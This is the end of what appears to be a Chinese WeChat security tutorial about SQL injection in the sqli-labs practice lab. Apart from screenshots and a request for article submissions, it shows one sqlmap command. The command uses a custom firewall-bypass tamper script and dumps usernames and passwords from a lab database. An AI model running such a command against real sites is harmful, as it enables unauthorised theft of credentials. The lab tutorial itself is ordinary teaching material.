     
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent -D security -T users -C username,password --dump --stop 3

![](https://gitee.com/fuli009/images/raw/master/public/20230222180239.png)  

![](https://gitee.com/fuli009/images/raw/master/public/20230222180241.png)  

![](https://gitee.com/fuli009/images/raw/master/public/20230222180246.png)

征集原创技术文章中，欢迎投递

投稿邮箱：edu@antvsion.com

文章类型：黑客极客技术、信息安全、热点安全研究分析等安全相关

通过审核并发布能收获200-800不等的稿酬

  

[更多详情介绍，点我查看](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect)  

![](https://gitee.com/fuli009/images/raw/master/public/20230222180247.png)![]()![](https://gitee.com/fuli009/images/raw/master/public/20230222180248.png)免费靶场实操，戳“阅读原文“

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

